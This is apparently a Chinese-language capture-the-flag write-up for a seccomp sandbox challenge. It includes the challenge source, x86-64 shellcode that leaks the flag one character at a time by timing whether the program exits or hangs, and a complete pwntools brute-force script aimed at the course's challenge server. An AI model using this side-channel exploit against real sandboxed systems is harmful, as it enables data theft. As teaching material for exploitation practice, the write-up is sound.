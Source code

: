 ```yaml
---
mainfont: "Noto Sans CJK TC"
monofont: Iosevka Fixed Extended
---
```

# how2know
首先看題目給的程式碼:  
```c
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <seccomp.h>
#include <sys/mman.h>
#include <stdlib.h>

static char flag[0x30];

int main() {
    void *addr;
    int fd;
    scmp_filter_ctx ctx;

    addr = mmap(NULL, 0x1000, PROT_EXEC | PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if ((unsigned long)addr == -1)
        perror("mmap"), exit(1);
    
    fd = open("/home/chal/flag", O_RDONLY);
    if (fd == -1)
        perror("open"), exit(1);
    read(fd, flag, 0x30);
    close(fd);

    write(1, "talk is cheap, show me the code\n", 33);
    read(0, addr, 0x1000);

    ctx = seccomp_init(SCMP_ACT_KILL);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
    seccomp_load(ctx);
    seccomp_release(ctx);

    ((void(*)())addr)();

    return 0;
}
```

## Analysis
稍微簡單講解一下程式碼做了哪些事情:  
1. 首先會開一個檔案，位置在/home/chal/flag  
2. 關閉檔案  
3. 讀非常長的一個buffer  
4. 使用seccomp將除了exit與exit_group之外的syscall都鎖住，如果嘗試呼叫會被kill掉  
5. 執行剛剛給的shell code  

<br>
在大多syscall都被鎖住的情況下，我們沒辦法透過正常的方式取得flag，因此要使用一些不同的方法。  
既然題目給了這麼長的buffer，那我們就可以把一些比較複雜的程式碼放進去。  
這邊試試看把flag逐字元比較，如果字元是正確的，那就使用exit直接結束程式；  
如果字元是錯誤的，那就讓程式進入無窮迴圈。  
這樣我們就可以根據程式回應的行爲來做判斷。  

## Find the address of flag
現在要先找出flag的位置在哪裡，才可以逐字比較。  
使用ghidra反組譯，看看flag的位置在哪裡:  
![](imgs/flag_addr.png)  
在0x00104040。  
<br>

再看看執行shellcode的時候，rsp指向哪裡:  
![](imgs/rsp.png)  
在0x00103dc。  
<br>

因此我們在執行shellcode的時候，可以推算出flag的位置爲:  
`rsp - 0x00103dc + 0x00104040`  
有了這些，就可以來寫shellcode了。  

## Shell code
首先要先把要比較的flag的字元的位址找出來。  
使用下面的shellcode:  
```s
mov rbx, qword ptr[rsp]
sub rbx, <offset>           ; 0x001013dc - 0x00104040
mov rax, qword ptr [rbx]
cmp al, 0x46                ; cmp al, "F"
jne $ - 0x4                 ; inf loop
mov rax, 0x3c               ; syscall exit
xor rdi, rdi                ; exit code
syscall
```

裡面的 jne $ - 0x4，$是指當前的位址，因此跳躍回到0x4前的指令，就能造成無窮迴圈，讓程式當掉。  

## Solve
```py
import pwn
import time

pwn.context.arch = "amd64"

offset = 0x001013dc - 0x00104040

def pwn_char_by_char(ith, char_ascii):
    shellcode = pwn.asm(
        f"""
        mov rbx, qword ptr[rsp]
        sub rbx, {offset - ith}
        mov rax, qword ptr [rbx]
        cmp al, {hex(char_ascii)}
        jne $ - 0x4
        mov rax, 0x3c
        xor rdi, rdi
        syscall
        """
    )

    r = pwn.remote("edu-ctf.zoolab.org", 10002)
    r.recvuntil(b"talk is cheap, show me the code")
    r.send(shellcode)
    
    t1 = time.time()
    try:
        r.recvall(timeout=1)
    except Exception:
        pass
    
    # if elapsed time smaller than 0.5: correct
    return time.time() - t1 < 0.5

flag = ""
for i in range(0, 0x30):
    print(f"Guessing {i} th char")
    # printable ascii
    for j in range(0x20, 0x7f):
        if pwn_char_by_char(i, j):
            flag += chr(j)
            print("hit", chr(j))
            break

print(flag)
```

程式執行結果(可能要跑一些時間):  
![](imgs/flag.png)